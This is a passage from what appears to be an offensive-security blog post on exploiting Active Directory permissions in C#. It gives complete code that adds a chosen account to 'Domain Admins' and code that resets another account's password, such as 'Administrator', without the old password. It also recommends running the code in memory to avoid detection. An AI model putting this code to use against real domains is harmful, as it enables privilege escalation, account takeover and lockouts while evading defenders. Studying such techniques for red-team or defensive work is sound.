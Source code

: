 Finally we can use the `Add()` method while passing in a specified user as a member of the target group and using the previously created context with `SamAccountName` as the `IdentityType`. Then save our changes by calling the `Save()` method. 

```cs
groupPrincipal.Members.Add(ctx, IdentityType.SamAccountName, user);
groupPrincipal.Save();
```

The full example code is listed below:

```cs
string group = "Domain Admins"; // Change this
string user = "jdoe";           // Change this

PrincipalContext ctx = new PrincipalContext(ContextType.Domain);
GroupPrincipal groupPrincipal = GroupPrincipal.FindByIdentity(ctx, group);
groupPrincipal.Members.Add(ctx, IdentityType.SamAccountName, user);
groupPrincipal.Save();
```



## Changing Passwords

While its a quite disruptive action to change a users password while having no knowledge of their previous password, mostly due to the possibility of account lockout for the end user, its still a possibility of account access given a write primitive on an account or having `ForceChangePassword` set. Just like permissive ACE's leading to group exploitation, this procedure could be done quite a few ways, including usage of the `net.exe` binary. Remember, utilizing raw command execution for a procedure such as this has bad OPSEC considerations. Just like group ACE exploitation its recommended to execute a .NET assembly in memory to preform exploitation. 

Once again, changing passwords for accounts utilizes a large portion of previous topics covered in this blog post.

First we'll need to gather a `SearchResult` object and associated `DirectoryEntry` object which represents the target account that we can freely interact with, we can use our previous methods that we covered for interacting with LDAP. Then finally call the `Invoke` method on the `DirectoryEntry` object, according to the MSDN this will "call a method on the native Active Directory Domain Services object.", in our case changing the password for the target object.

The full code for this example is below:

```cs
string user = "Administrator"; // Change this
string password = "P@ssw0rd";  // Change this

SearchResultCollection results;

DirectoryEntry de = new DirectoryEntry();
DirectorySearcher ds = new DirectorySearcher(de);

string query = "(samaccountname=" + user + ")";
ds.Filter = query;
results = ds.FindAll();
foreach (SearchResult sr in results)
{
    DirectoryEntry mde = sr.GetDirectoryEntry();
    mde.Invoke("SetPassword", new object[] { password });
}
```
